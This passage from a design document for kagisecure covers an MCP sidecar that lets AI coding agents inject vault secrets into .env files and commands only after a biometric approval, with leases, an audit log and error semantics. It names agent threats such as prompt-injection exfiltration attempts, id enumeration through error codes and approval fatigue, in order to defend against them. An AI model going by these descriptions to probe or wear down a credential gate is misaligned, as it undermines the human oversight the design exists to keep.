   answered, before the tab is chosen (ADR-0036, implementation decision 36).
8. **The user**: `USER_DENIED` or `APPROVAL_TIMEOUT`. The user may also deny and block the agent
   for thirty minutes. Inside the grace window there is no sheet, and this check is skipped.
9. **Delivery**: the extension redeems a single-use, 30-second grant bound to this sidecar process,
   the tab, the document and the origin; any change is `NO_MATCHING_TAB`, and an audit entry that
   cannot be written is `AUDIT_UNAVAILABLE` — in both cases nothing was typed. Each page of an
   identifier-first sign-in is delivered under a grant of its own, and both are bound to the 60
   seconds of the flow.

`crates/kagisecure-agent/tests/agent_fill.rs` and `agent_fill_adversarial.rs` assert this, and that
the value of the item reaches no byte of the reply; `agent_fill_limits.rs` asserts the limits by
counting the sheets shown; `agent_fill_steps_and_codes.rs` asserts the two-page flow, one-time
codes and the tripwire's follow-up; `agent_fill_sidecar.rs` sweeps a successful fill, a successful
two-page fill and a successful code fill for the password, the code and its seed in every byte the
real sidecar writes; `crates/kagisecure-cli/tests/mcp.rs` asserts the daemon's
`FILL_UNAVAILABLE`.

## 3. How the invariant is enforced

Not by review, not by a redaction filter. By the type system and the crate graph.

```rust
// crates/kagisecure-core/src/model/secret.rs   -- behind feature "secret-material"
pub struct Secret(Zeroizing<Vec<u8>>);
// no Serialize, no Display, no Clone, no Into<String>
```

```toml
# crates/kagisecure-mcp/Cargo.toml
[dependencies]
kagisecure-core = { path = "../kagisecure-core", default-features = false, features = ["proto"] }
# "secret-material" is NOT enabled. The Secret type is not in this crate's graph.
```

Three layers:

1. **`Secret` has no serialization impl.** Anywhere. Writing it to the vault goes through a
   private function in `crate::vault` that touches the raw bytes; there is no public path.
2. **`kagisecure-mcp` does not compile `Secret` at all.** It depends on `kagisecure-core`'s
   `proto` feature, which contains only metadata structs (`ItemMeta`, `EnvMeta`, `FieldMeta`) and
   the IPC request/response enums. A tool returning a secret would be a compile error, not a
   review finding.
3. **The IPC protocol has no message carrying a value.** Even if layer 2 were bypassed, the app
   has nothing to send.

Enforcement (run locally via `cargo test` and `cargo tree`; ran on every PR in CI until CI was
removed on 2026-09-19):

- `cargo tree -p kagisecure-mcp` asserted not to enable `secret-material`.
- A canary test: seed a vault with a unique 32-byte marker as a secret value, drive every tool
  with property-generated arguments, assert the marker never appears in any byte written to
  stdout.
- A second canary, added in M5, for one-time passwords: the fixture's agent-visible item carries a
  TOTP field, and the test asserts that neither its Base32 seed, nor the `otpauth://` URI that
  carries it, nor any code valid at any point during the run reaches stdout, stderr or the audit
  log — plus a schema-level assertion that no tool declares a place to put one (§2.4).

## 4. Approval flow


```mermaid
sequenceDiagram
    autonumber
    participant U as User
    participant M as Model
    participant C as MCP client
    participant S as kagisecure-mcp
    participant A as kagisecure app
    participant B as Touch ID / Hello
    participant FS as Filesystem

    M->>C: call write_env_file{env, dir, ttl}
    C->>S: tools/call
    S->>S: validate schema, canonicalize dir
    S->>A: IPC InjectRequest{env, dir, vars, ttl, peer_pid}
    A->>A: verify peer identity (code signature of peer_pid)
    A->>A: lease lookup (env + dir + scope)
    alt valid lease covers request
        A->>A: take one use of it
    else no lease, or narrower lease
        A->>A: audit entries still unwritten? write them now, or refuse AUDIT_UNAVAILABLE
        A->>U: approval sheet:<br/>caller, dir, var names, TTL
        U->>B: fingerprint
        B-->>A: unwrap vault key
        alt user denies or times out (60s)
            A-->>S: Denied
            S-->>C: error USER_DENIED
            C-->>M: "The user declined."
        end
        A->>A: mint lease{env, dir, ttl, uses}, take one use
    end
    A->>A: one transaction: re-check env, resolve values,<br/>write Allowed audit entry (names only)
    alt audit entry could not be written
        A-->>S: AUDIT_UNAVAILABLE (nothing released, minted lease revoked)
    end
    A->>FS: write .env (0600), no lock held
    A-->>S: InjectResult{path, var_names, lease_id, expires_at}
    S-->>C: tool result
    C-->>M: names + path, no values
```

The critical property: **step 9 (the approval sheet) is rendered by the app, in its own window.**
The model cannot see it, cannot fill it, cannot fabricate its outcome, and cannot distinguish
"user denied" from "user was in a meeting". A prompt injection can cause the *request* to be made
— it cannot cause it to be granted.

## 5. Session and lease model

A **lease** is the unit of granted access.

```rust
struct Lease {
    id: LeaseId,
    environment_id: EnvId,
    directory: PathBuf,        // canonical, exact match (no prefix matching)
    variables: BTreeSet<String>,
    client_identity: ClientIdentity,   // verified, not self-reported
    expires_at: Instant,
    uses_remaining: u32,       // default 10
    kind: LeaseKind,           // EnvFile | RunCommand
}
```

Rules:

| Rule | Rationale |
| --- | --- |
| Leases are **memory-only**, never written to disk | Restarting the app is a clean slate |
| A lease dies on: expiry, use exhaustion, vault lock, app exit, explicit revoke | Locking must mean locking |
| In the native app (macOS/Windows), OS screen lock and sleep also kill every lease via a vault lock | `kagisecure daemon` has no screen-lock/sleep hook (no OS session to watch), so a daemon lease outlives those events until it expires, is exhausted, or is locked/revoked explicitly |
| Directory match is **exact after canonicalization**, not prefix | `/Users/x/code` must not authorize `/Users/x/code/../../../tmp` |
| A request broader than any existing lease (more variables, different dir, different env) triggers a **fresh biometric** | No privilege creep |
| `write_env_file` with `overwrite: true` onto a file kagisecure did not write is never covered by a lease | Replacing the user's file is a different question from writing kagisecure's |
| No "always allow" / "remember forever" option exists in v1 — except the machine vault's standing grants (below) | The whole product is the prompt, for every vault a person uses |
| Default TTL 15 min, max 24 h, user can always shorten what the agent requested | Agent asks, human decides |
| Leases are listed in the app with one-click revoke, and a menu-bar/tray indicator shows the count of active leases | Visibility |

`run_with_env` leases are additionally bound to `(command, cwd)`; changing either requires a new
approval.

### 5.1 Standing grants and the unattended socket *(accepted for macOS; the engine is built, the app is not — [ADR-0042](decisions/0042-unattended-agent-access.md))*

The one exception to "the whole product is the prompt" is the **machine vault**: a separate vault
for machine credentials, armed by a person with a presence proof — arming persists across
restarts until a person disarms it. Jobs that kagisecure itself starts on a schedule reach it
through a second endpoint, the **unattended socket**, named to them in `KAGISECURE_SOCKET`. A
request there is answered only if it comes from a live run's process tree, and a value is released
only under a **standing grant** a person created in the app with a presence proof: `run_with_env`
for an exact command, directory and variable set with output `none`, or `request_fill` for one
machine-vault login at one exact https origin in the run's own browser. Grants persist, carry
per-run and total limits and a hard expiry, and are suspended by anything unexpected; no tool and
no IPC message creates, widens or proposes one. The ordinary socket is unchanged: it serves the
machine vault only with the ordinary sheet and a presence proof, and only while the personal vault
is unlocked, and there only its environments (ADR-0042 implementation decision 14). On the
unattended socket, `run_with_env`'s reply never carries output and names the grant where a lease
would be; `request_fill` answers `FILL_UNAVAILABLE` until unattended sign-ins are built. The
engine is `kagisecure-agent`'s `unattended` module; the macOS app starts it at launch and arms it
when the person does (Agent access → Unattended jobs). Where such credentials belong, and what unattended use costs, is in
[unattended-credentials.md](unattended-credentials.md).

## 6. Audit log

Every tool call is recorded, whether it succeeded, was denied, or errored. Entries carry:

`timestamp | client_identity (verified) | client_pid | tool | environment/item ids | variable names | target path | lease_id | outcome`

They never carry values. The log is part of the encrypted vault body with a hash chain
(see [vault-format.md](vault-format.md) §8) and is browsable in the app with filters
("show me everything Cursor did today"). `kagisecure audit` prints it from the CLI.

Denied requests are kept, deliberately: a burst of denials is the signal that something is trying
things, and it is the only evidence a user will have that a prompt injection attempted an
exfiltration.

**Audit before release.** For the two tools that release values — `write_env_file` and
`run_with_env` — the order is fixed: the checks that decide the release (the environment still
exists and is still visible to agents, and every variable bound to an item field still reaches an
item `list_items` and `describe_item` would show — a binding is a route to a value, not a grant,
and the user may have hidden or trashed its item since; the per-field flag is not part of this
check, because it decides whether `describe_item` discloses a field, and a user may bind a
variable to a field kept out of it so that it is injected without being listed) are made again
against the vault file as it is on disk, the
values are resolved, and an `Allowed` entry describing the release (tool, environment, variable
names, target, lease) is written to the file — all in one transaction. Only once that write has
succeeded, and with no lock held, is the file written or the command started. An `Allowed` entry
therefore means "authorized and committed to be released": no value leaves without a record,
whatever happens afterwards. If the entry cannot be written, nothing is released
(`AUDIT_UNAVAILABLE`, §7). If a committed release then fails or ends abnormally, a second entry
follows — outcome `Failed`, the same tool, lease, target and variable names, detail
`"<CODE> (entry <seq>)"` naming the `Allowed` entry (`WRITE_FAILED`, `FILE_EXISTS`, `INVALID_PATH`,
`SPAWN_FAILED`, `RUN_FAILED`, `TIMED_OUT`, `LOCKED_BEFORE_START` (the vault locked between the
release and the spawn, so nothing started), `KILLED_ON_LOCK` — a `run_with_env` child still running
when the vault locked, §2.8). That second entry, and every entry for a denial, a refusal, a
metadata tool, a revoke or a lock, is written best-effort: it never changes the reply, and a write
that fails leaves it queued for the next one rather than lost. A revoke or a lock that leaves a
written path alone because it no longer names the file kagisecure wrote adds a `Failed` entry with
detail `NOT_SHREDDED_FILE_REPLACED` and that path (§2.9). `KILLED_ON_LOCK` is a partial
exception to "queued rather than lost": it is written by the lock itself, directly onto the vault a
moment before that vault is gone for good, because by the time an ordinary best-effort write would
run, there is no vault left in the handle to queue it on — see
[ADR-0039](decisions/0039-transactional-vault-writes-and-the-lock-file.md)'s lock-hook design for
why that moment is the only one left.

An entry that cannot be saved immediately — another kagisecure process holds the vault's write
lock, the disk is full — is not dropped: it waits in a pending queue and is written by the next
transaction that succeeds ([ADR-0039](decisions/0039-transactional-vault-writes-and-the-lock-file.md)
§5), keeping the time it actually happened. The release entries above are the exception by
design ([ADR-0040](decisions/0040-audit-before-release.md)): they are never merely queued, because
the release waits for them.

## 7. Error semantics

Errors are MCP tool errors with a stable machine-readable `code` and a human `message`. The
message is written for the *model*, so it should say what to do next.

| Code | Meaning | Model should |
| --- | --- | --- |
| `APP_NOT_RUNNING` | The native app is not running or not reachable over IPC | Tell the user to open kagisecure. Do not retry in a loop. |
| `VAULT_LOCKED` | App is running, vault is locked | Tell the user to unlock. |
| `USER_DENIED` | The user declined the approval — for `request_fill` also: the user blocked this agent | Stop. Do not re-request the same thing. |
| `APPROVAL_TIMEOUT` | No response in 60 s | May retry once, after telling the user. |
| `NOT_FOUND` | Unknown vault/item/environment id, **or** one the user has not made visible to agents | Re-list. |
| `INVALID_PATH` | Path not absolute, not a directory, or refused by policy | Fix the path. |
| `INVALID_ARGUMENT` | An argument breaks a documented rule of the tool's schema — a variable name that does not match `^[A-Za-z_][A-Za-z0-9_]*$`, a name repeated in one request or already in the environment, a string over its length limit, a `request_fill` field set that is empty, repeats a field or combines `one_time_code` with another — or `create_environment` / `add_variables` names a shared vault or shared environment the agent can see (agents cannot change a shared vault, §2.1); nothing was asked and nothing changed | Fix the argument. Do not retry it unchanged. |
| `FILE_EXISTS` | Target exists and `overwrite` is false | Ask the user, then retry with `overwrite: true`. |
| `VAULT_BUSY` | Another kagisecure process (the CLI, a second app) held the vault file's write lock for more than 5 s; nothing was changed | Wait a few seconds, then retry once. |
| `VAULT_CONFLICT` | The vault file on disk was restored from an older copy, replaced, or removed while the vault was unlocked; the app refuses to build on it or overwrite it, so nothing is changed or released | Tell the user to open kagisecure and resolve it. Do not retry until they have. |
| `FILL_UNAVAILABLE` | `request_fill` cannot be served at all: agent fills are turned off, or no browser with the kagisecure extension is connected. Answered before the item is looked up | Tell the user. Do not retry. |
| `NOTHING_TO_FILL` | `request_fill` named a field the item has no value for, or an archived item | Check `describe_item`. |
| `NO_MATCHING_TAB` | `request_fill` found no tab to fill: the tab in front is not at `origin`, is not a sign-in page kagisecure recognizes (for a one-time code: has no code field), is not visible, is not a site saved for this item, or changed before the fill; or more than one browser has such a tab in front; or page two of an identifier-first sign-in is not the same sign-in in the same tab | Bring the right tab to the front; retry at most once. |
| `RATE_LIMITED` | `request_fill` was refused without asking because another agent fill is in progress and they are served one at a time. Answered before the item is looked up | Retry once after it finishes. |
| `AUDIT_UNAVAILABLE` | `write_env_file` or `run_with_env` was about to release values, and the audit entry that must be written first could not be (a full disk, a broken or conflicting vault file, another process holding the write lock); **nothing was released** — no file written, no command run | Tell the user the vault cannot be written right now. Do not retry in a loop. |
| `NOT_GRANTED` | Only on the unattended socket (§5.1): the request is not covered by a standing grant of the calling run's job, or does not come from a run kagisecure started. One message for every reason; a request no grant covers has suspended every grant of the job and ended the run | Stop. Do not retry or try variations; the owner has been told. |
| `UNATTENDED_PAUSED` | Only on the unattended socket (§5.1): unattended jobs are not armed, so nothing is released | Tell the user unattended jobs are paused; do not retry. |
| `INTERNAL` | Bug | Report it. |

**Every code in this table is one the sidecar can actually return.** That is a rule, not an
observation, because each row is an instruction to the *model*: a code nothing produces is standing
advice about a situation that cannot arise, and a model that has been told what to do will
eventually find an excuse to do it.

A third code, `NOT_AGENT_VISIBLE` ("exists but the user has not made it visible to agents"), was
removed for a different reason: it was an **enumeration oracle**. A caller that cannot see a thing
could still learn that the thing exists, by walking ids and watching which ones answered
`NOT_AGENT_VISIBLE` rather than `NOT_FOUND` — which is exactly the enumeration `agent_visible`
exists to prevent (threat-model M-8). Hidden and absent now share one code *and one identical
message*, on every tool, and the code no longer exists in the protocol enum, so it cannot come
back by accident.

Two further codes were in an earlier draft of this table and were removed for failing the rule
above, rather than given implementations to justify the text:

- `RATE_LIMITED` ("back off"), while there was no rate limiter. What bounds a hostile agent on the
  injection tools is the approval sheet and the lease — §5 — not a counter. It has since come back,
  scoped to `request_fill`, with the one limiter that bounds something no lease does (below).
- `LEASE_EXPIRED` ("request a fresh injection"). Leases are matched *implicitly*: `write_env_file`
  and `run_with_env` look for a live lease covering the request and, finding none, ask the human
  again. No tool takes a lease id in order to *act*, so no call can fail because a lease expired.
  The one tool that accepts a `lease_id` at all is `revoke_env_file`, which is cleanup — §2.9 — and
  revoking a lease that is already gone is a successful no-op.

If either mechanism is ever built, its code comes back with it — as `RATE_LIMITED` has.

`VAULT_BUSY` and `VAULT_CONFLICT` exist because the vault file has more than one writer: the app
(or `kagisecure daemon`) serving this protocol, and the CLI beside it. Every request first brings
the app's copy up to date with the file, so a change made elsewhere — `kagisecure env
agent-access --deny`, say — applies to the very next request, and every write is a transaction on
the file as it is at that moment. `VAULT_CONFLICT` is what that check answers when the file no
longer continues what this session last saw on disk; it is reported for every tool except
`revoke_env_file`, which is cleanup and keeps working. (`request_fill`'s first gate answers before
the file is read, §2.10, so a switched-off `request_fill` is `FILL_UNAVAILABLE` whatever the file
says.) Both codes arrived with protocol version 2.

`AUDIT_UNAVAILABLE` is what "audit before release" (§6) answers when it cannot keep its promise.
`write_env_file` and `run_with_env` release a value only after the entry recording the release is
on disk, so when that write fails they fail closed: nothing is released, a lease the call minted
is revoked, and a `Failed` entry with detail `AUDIT_UNAVAILABLE` is kept for the next write that
succeeds. If entries from an earlier failed write are still waiting, those two tools try to write
them *before* showing an approval sheet, and refuse with this code without asking the human if
that fails — a sheet for a release that would then be refused is a question with no answer. Every
other tool keeps working while the audit log cannot be written (its entry waits, and the app shows
the failure). The code arrived with protocol version 2 as well: no build speaking version 2 was
released before it was added.

`INVALID_ARGUMENT` is the agent's own check of the schema rules above, made by the process that
owns the vault because the sidecar is a convenience, not a boundary: a caller speaking the socket
protocol directly skips it. It too arrived with protocol version 2, which is still unreleased. It
also answers a write aimed at a shared vault (ADR-0035 addendum, decision 27), with one fixed
sentence, and only for a shared vault or environment the agent can already see — one it cannot see
is `NOT_FOUND`, as ever, so the answer says nothing the listing did not. There is no
`UNRESOLVED_CONFLICT`: shared vaults merge last-writer-wins and leave nothing to refuse a release
over (decision 80).

`FILL_UNAVAILABLE` is `request_fill`'s first and fifth gates (§2.10): "agent fills are on, and
there is a browser to ask". When the switch is off it is answered before the vault's lock state and
before the item, so it cannot vary with either. `NOTHING_TO_FILL` and `NO_MATCHING_TAB` are gates 4,
6 and 9. All three arrived with protocol version 2, alongside the request and reply they belong to.

> **Changed in 0.1.3.** The per-agent sheet budget and the sticky denial described in this
> paragraph were removed (ADR-0036 amendment of 2026-10-03). `RATE_LIMITED` is now produced only
> while another agent fill is in progress. The paragraph is kept as the record of the original
> design.

`RATE_LIMITED` is back, scoped to `request_fill` (ADR-0036 §9.1), because there a counter bounds
something no lease protects: **the human's attention**. Every agent fill still needs its own sheet
and biometric, so the limiter adds nothing to *access*; what it stops is an agent raising sheets
until the human clicks through one. Two cases produce it, both at gate 1, before the item is looked
up and without a sheet: an agent that has had **three sheets in ten minutes** is refused for the
next ten minutes, and the user is told once (not once per request); and while **another agent
fill is in progress** anywhere in the app, a second request is refused at once rather than queued,
with a sentence saying so — the one case where retrying once, after that fill, is reasonable. "An
agent" is the sidecar's parent program as the kernel reports it; every client under the same
program shares one budget, which over-counts in the safe direction. The two related refusals that
are answered `USER_DENIED` instead — a blocked agent, and a repeat of a request the user already
declined or let time out in the last ten minutes — are a human's answer, not a budget. The
numbers are fixed, not settings. It arrived with protocol version 2 as well, which no build
speaking it was released before.

Two rules about error content:

1. **No oracles.** "Does not exist" and "exists but the user has not shared it" are one answer:
   the same `NOT_FOUND` code and the same message, byte for byte, on every tool. An earlier draft
   had them distinguishable, reasoning that the user's configuration is not a secret and that a
   confusing "not found" causes bad agent behavior; that was wrong, because the *existence* of an
   id is exactly what an agent denied access to a vault must not be able to confirm. Nothing
   distinguishes "wrong password guessed" cases either, and no error ever varies based on secret
   *contents*. The same goes for a release that cannot resolve a binding: the reply is one fixed
   sentence that names nothing — never the text of the underlying error, which was written for the
   vault's owner and named the item by its title — and the audit entry records a code and ids.
2. **No values in messages.** Enforced by the same type barrier as §3.

## 8. SEP-2322 (multi-round-trip) — considered, not adopted

MCP 2026-07-28 added Multi Round-Trip Requests (SEP-2322): a server can return an
`InputRequiredResult` mid-tool-call to have the client collect input from the user and resume.

That is a good feature and the wrong one here. It makes the **MCP client** the approval channel,
which means:

- the value (or the approval) passes through the client process, which is exactly the process we
  do not want to trust;
- a compromised or hostile client can auto-answer;
- the prompt is rendered by the agent's UI, where injected content already lives.

kagisecure's out-of-band native prompt is strictly stronger. SEP-2322 is retained as a documented
**fallback for headless/CLI-only setups** (SSH sessions, CI, a Linux box with no kagisecure GUI),
where it would gate on a terminal confirmation. If used, that mode is labelled in the UI and in
the audit log as a weaker approval channel, and it is opt-in per vault.

## 9. Client setup

The MCP binary path below is where a released app carries its sidecar
([ADR-0026](decisions/0026-helper-binaries-inside-the-app-bundle.md)); the app's "Set up your
agent" screen shows the exact path for the current install and copies these snippets, and
`kagisecure mcp path` prints it.

`Contents/Helpers`, not `Contents/MacOS`: the app's own executable is `Contents/MacOS/Kagisecure`,
the CLI that ships beside the sidecar is `kagisecure`, and on a case-insensitive filesystem those
are one file.

### Claude Code

```bash
claude mcp add --transport stdio kagisecure -- /Applications/Kagisecure.app/Contents/Helpers/kagisecure-mcp
```

Or, if installed via Homebrew:

```bash
claude mcp add --transport stdio kagisecure -- /opt/homebrew/bin/kagisecure-mcp
```

**Quoting, and which shell this command is for.** Every other snippet on this page is JSON or
TOML, so a Windows install path's backslashes are escaped the same way on every platform
(`setup.rs::escape_for_quoted_string`). This one is different: it's a line for an interactive
shell, and a shell's quoting rules are a fact about *which shell*, not about the data. The path is
therefore quoted for whichever shell the build actually targets, decided at compile time in
`setup.rs::quote_for_shell` rather than guessed at render time:

- **On Windows**, for PowerShell — the shell Windows Terminal opens by default. The path is
  single-quoted, with an embedded `'` doubled to `''` (PowerShell's own escape inside a
  single-quoted string). No `&`-call operator: `&` is only needed when a quoted string names the
  *command itself*, and here the path is an **argument** to `claude`, which is already the
  command.
- **Everywhere else**, for a POSIX shell. The path is left bare when it has none of a POSIX
  shell's special characters — true of every real install path above — and single-quoted
  otherwise, with an embedded `'` closed and reopened as `'\''`.

### Claude Desktop

`claude_desktop_config.json`:

```json
{
  "mcpServers": {
    "kagisecure": {
      "command": "/Applications/Kagisecure.app/Contents/Helpers/kagisecure-mcp",
      "args": []
    }
  }
}
```

### OpenAI Codex CLI

`~/.codex/config.toml`:

```toml
[mcp_servers.kagisecure]
command = "/Applications/Kagisecure.app/Contents/Helpers/kagisecure-mcp"
args = []
```

### Cursor

`.cursor/mcp.json` (project) or `~/.cursor/mcp.json` (global) — same shape as Claude Desktop:

```json
{
  "mcpServers": {
    "kagisecure": {
      "command": "/Applications/Kagisecure.app/Contents/Helpers/kagisecure-mcp",
      "args": []
    }
  }
}
```

### Windows

The Windows build ships as a per-user MSI with no admin/UAC prompt
([ADR-0034](decisions/0034-windows-distribution-a-per-user-signed-msi.md);
[docs/windows-port.md](windows-port.md)). It installs flat into
`%LOCALAPPDATA%\Programs\Kagisecure\` — `Kagisecure.App.exe`, `kagisecure_ffi.dll`,
`kagisecure-mcp.exe`, `kagisecure-nmhost.exe` and `kagisecure.exe` all in that one directory, none
of them on `PATH` (see [docs/releasing.md](releasing.md) §10.5–10.6) — so an MCP client's config
needs the sidecar's expanded absolute path:

```json
{
  "mcpServers": {
    "kagisecure": {
      "command": "C:\\Users\\<you>\\AppData\\Local\\Programs\\Kagisecure\\kagisecure-mcp.exe",
      "args": []
    }
  }
}
```

`%LOCALAPPDATA%` resolves to that same `C:\Users\<you>\AppData\Local` path; most clients' config
files want it expanded, not left as a literal environment variable. As on macOS, `kagisecure mcp
path` prints the exact installed path and `kagisecure mcp install <client> --write` edits the
client's own config file directly — see "Let the CLI write it" below.

### Let the CLI write it

Every snippet above is emitted, with the real path filled in, by:

```console
$ kagisecure mcp path
/usr/local/bin/kagisecure-mcp

$ kagisecure mcp install claude-code       # prints the `claude mcp add` command
$ kagisecure mcp install claude-desktop    # prints the JSON
$ kagisecure mcp install codex             # prints the TOML
$ kagisecure mcp install cursor            # prints the JSON
```

Adding `--write` edits that client's own standard configuration file instead of printing:
`claude_desktop_config.json` and `~/.cursor/mcp.json` are merged into (everything else in the
file is preserved), and `~/.codex/config.toml` gets the table appended if it is not already
there. `claude-code` has no file to write — it keeps its own registry — so `--write` refuses and
tells you to run the printed command.

## 10. What an agent session actually looks like

```
> Set up this repo to run against staging.

  list_vaults()                          -> [{Acme Corp}]
  list_environments(vault_id=...)        -> [{name: "acme-api / staging",
                                              variable_names: [DATABASE_URL, REDIS_URL,
                                                               STRIPE_SECRET_KEY]}]
  write_env_file(environment_id=...,
                 directory="/Users/x/code/acme",
                 ttl_seconds=900)

     [kagisecure app raises a sheet]
     Claude Code (verified) wants to write 3 variables
     to /Users/x/code/acme/.env for 15 minutes.
        DATABASE_URL, REDIS_URL, STRIPE_SECRET_KEY
     .env is covered by .gitignore.
     [Touch ID]

                                         -> {path: ".../.env",
                                             variables_written: [...],
                                             lease_id: "l_4a9c",
                                             expires_at: "..."}

  run_with_env(environment_id=...,
               command="npm", args=["run","migrate"],
               cwd="/Users/x/code/acme")
                                         -> {exit_code: 0, stdout: "...", scrubbed: 1}

  revoke_env_file(lease_id="l_4a9c")     -> {shredded: [".../.env"]}
```

At no point did the model see a value. The transcript, the provider's logs, and the agent's
context contain variable *names* and nothing else.

## 11. Try it

Two ways to run this: the **macOS app**, which is the real one, and the **headless daemon**, which
is for a machine with no GUI. They bind the same socket, so only one of them can run at a time —
whichever starts second says so and stops.

### 11.1 Build and seed a vault

```console
$ cargo build --workspace
$ export KS=./target/debug/kagisecure

$ $KS vault init                                  # prints a one-time recovery code
$ $KS item add --title "Acme staging" --category api-credential \
      --field endpoint=https://api.acme.example --secret key
$ $KS env create "acme / staging" --agent-visible
$ $KS env add-var --environment "acme / staging" \
      --name ACME_API_KEY --bind "Acme staging/key"
```

Agent access is **default-deny**, so the vault and the item have to be opened up explicitly. The
environment above was created with `--agent-visible`; without that flag it stays hidden too.

```console
$ $KS env agent-access --allow --logical-vault Personal
$ $KS env agent-access --allow --item "Acme staging"
$ $KS env agent-access                            # show the current state of everything
KIND          NAME                          AGENT
vault         Personal                      yes
environment   acme / staging                yes
item          Acme staging                  yes
```

The app can do all of this too — Agent access → Environments has a "Share this vault" switch, a
per-environment switch, and the item detail pane's own "Visible to agents" toggle.

### 11.2 Start the app

```console
$ make macos                                      # bindgen -> xcodegen -> xcodebuild
$ KAGISECURE_HOME=/tmp/ks-demo open -n build/Debug/Kagisecure.app
```

Unlock it. The sidebar footer shows a green antenna once the listener is up, and Agent access →
Set up your agent shows the socket path and the exact snippet for each client.

**Or, headless:**

```console
$ $KS daemon
Master password:
kagisecure daemon — the headless approval channel.

  vault    /Users/you/Library/Application Support/kagisecure/default.kagivault
  socket   /Users/you/Library/Application Support/kagisecure/run/daemon.sock
  approval this terminal (y/N), 60 s timeout
  vault    Personal             1 item(s), 1 environment(s)  [visible to agents]
```

### 11.3 Register the sidecar with Claude Code

In the project you want kagisecure available in — **not** in the kagisecure repo itself unless
that is genuinely what you want:

```console
$ claude mcp add --transport stdio kagisecure -s local -- "$(kagisecure mcp path)"
Added stdio MCP server kagisecure with command: /usr/local/bin/kagisecure-mcp to local config

$ claude mcp list
kagisecure: /usr/local/bin/kagisecure-mcp - ✔ Connected
```

If your app or daemon is on a non-default socket, pass it through:
`claude mcp add ... -e KAGISECURE_SOCKET=/path/to/daemon.sock -- ...`. On Windows the same
variable takes a **named pipe name** rather than a path (`kagisecure-mine.sock`, or
`\\.\pipe\kagisecure-mine.sock`), because Windows has no filesystem sockets — see
[architecture.md](architecture.md) §4.2.

### 11.4 Use it

```console
$ claude -p "List the kagisecure environments and set this repo up to run against staging" \
      --allowedTools "mcp__kagisecure__*"
```

**In the app**, one sheet appears per injection:

```text
  ┌───────────────────────────────────────────────────────────────────┐
  │  “claude-code” wants to write 1 variable to a .env file           │
  │  No secret value is shown to the caller either way.               │
  ├───────────────────────────────────────────────────────────────────┤
  │  ⚠ Unverified — proceed with caution                              │
  │    ad-hoc signed — identity not attributable to a developer       │
  │    Reports itself as “claude-code”. That name is unverified.      │
  │    Process  /usr/local/bin/kagisecure-mcp · pid 51234             │
  │                                                                   │
  │  Variables   ACME_API_KEY                                         │
  │  File        /Users/you/code/acme/.env                            │
  │  Environment acme / staging                                       │
  │  ⚠ Not gitignored — this file is inside a git work tree           │
  │  Access expires after  [────────●] 15 minutes                     │
  │                                                                   │
  │  ▓▓▓▓▓▓▓▓▓░  56 s to answer                                       │
  │                       [ Deny ]  [ Allow once ]  [ Allow for … ]   │
  └───────────────────────────────────────────────────────────────────┘
```

Both Allow buttons raise a Touch ID sheet before anything is granted. Cancelling it returns to the
dialog rather than denying — a fumbled fingerprint is not a policy decision.

**In the daemon**, the same facts arrive as text:

```text
  ┌─ kagisecure approval ─────────────────────────────────────────
  │ A caller wants to write a .env file.
  │
  │ caller      "claude-code" [kernel pid] pid 51234 /usr/local/bin/kagisecure-mcp
  │ started in  /Users/you/code/acme
  │ environment acme / staging
  │ file        /Users/you/code/acme/.env
  │ variables   ACME_API_KEY
  │ for         900 s, up to 10 uses
  │ gitignore   *** INSIDE A GIT WORK TREE AND NOT IGNORED ***
  │
  │ No secret value is shown to the caller either way.
  └───────────────────────────────────────────────────────────────
  Allow? [y = this session / o = once / N = deny]
```

`[UNVERIFIED]` in either channel is honest rather than alarming. The pid shown *is* the kernel's —
macOS's `xucred` carries no pid, so `kagisecure-ipc` reads it with
`getsockopt(SOL_LOCAL, LOCAL_PEERPID)` from its one `#![allow(unsafe_code)]` module,
`kernel_peer.rs` (Linux uses `SO_PEERCRED`), and the executable path is resolved from that pid
with `proc_pidpath`. The peer's **uid** is likewise checked against yours by the kernel, and a
connection from another local user is refused outright. The **code signature** of that process is
checked too, by the app (not by the daemon) — see
[ADR-0015](decisions/0015-peer-code-signature-verification.md) for why an ad-hoc-signed build can
only ever answer "unverified".

### 11.5 Look at what happened, and clean up

The app has an Audit pane with the same information, filterable, plus a live Leases table with a
Revoke button per row. From a terminal:

```console
$ $KS audit --verify
SEQ    DATE        ACTOR       TOOL                  OUTCOME   DETAIL
0      2026-09-09  cli         env create            allowed
4      2026-09-09  mcp         list_environments     allowed
5      2026-09-09  mcp         write_env_file        denied    APPROVAL_TIMEOUT  ACME_API_KEY
7      2026-09-09  mcp         write_env_file        denied    USER_DENIED  ACME_API_KEY
8      2026-09-09  mcp         lock                  allowed

9 entries in total. Entries record names, never values.
Hash chain intact (9 entries).

$ $KS lock                                        # drop the key and every lease
$ claude mcp remove kagisecure -s local
```

`kagisecure lock` works against the app as well as the daemon: it is an IPC message, the app
notices it, locks, and the socket goes away.

### 11.6 Without a client, if you just want to see the wire

```console
$ KAGISECURE_SOCKET=/path/to/daemon.sock ./target/debug/kagisecure-mcp
{"jsonrpc":"2.0","id":1,"method":"initialize","params":{"protocolVersion":"2025-11-25","capabilities":{},"clientInfo":{"name":"curious","version":"0"}}}
{"jsonrpc":"2.0","method":"notifications/initialized"}
{"jsonrpc":"2.0","id":2,"method":"tools/list","params":{}}
```

Type those three lines into its stdin. The IPC frames underneath are length-prefixed JSON on a
`0600` socket, deliberately readable with `xxd`, because a security-critical path you cannot
inspect is one you have to take on faith.
